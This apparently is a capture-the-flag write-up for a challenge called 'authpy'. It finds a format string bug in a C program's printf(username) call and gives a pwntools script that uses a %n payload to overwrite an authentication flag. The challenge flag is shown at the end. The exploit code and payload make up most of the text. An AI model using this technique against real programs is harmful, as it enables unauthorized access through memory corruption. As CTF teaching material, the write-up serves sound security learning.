 # authpy

A quick look at the provided c file shows this interesting check that we have to pass
```c
void authenticate(char *user) {
    if (user == "1337_H4X0R")
        authenticated = true;
}
```

Further down the script, there appears to be a `printf` [vulnerability](https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b), since it is just printing what we input directly, without any formatter.

```c
    printf("Authenticating user: ");
    printf(username);
    printf("...\n");
    authenticate(username);
```

To exploit this, we need to find a place on the stack we control, then put our target address there.Then, we pass it in a `%n` to that position. This will write the number of bytes outputted from `printf` to the address. After some careful investigation, we can find where our input is on the stack, and attempt to write to the `authenticated` variable.


```python
from pwn import *
import re

HOST, PORT = "192.168.125.100", 9101
BINARY = './auth'

def start():
    if not args.REMOTE:
        print("LOCAL PROCESS")
        return process(BINARY)
    else:
        print("REMOTE PROCESS")
        return remote(HOST, PORT)

def solve():
    p = start()
    
    payload = b'.%6$p.%7$p.%8$n.'
    payload += p64(0x404089)

    p.sendlineafter(":", payload)

    p.interactive()

solve()
```

```
ICTF{i_sw3AR_tHaT_buFF3R_w4s_b1g_en0uGH...}
```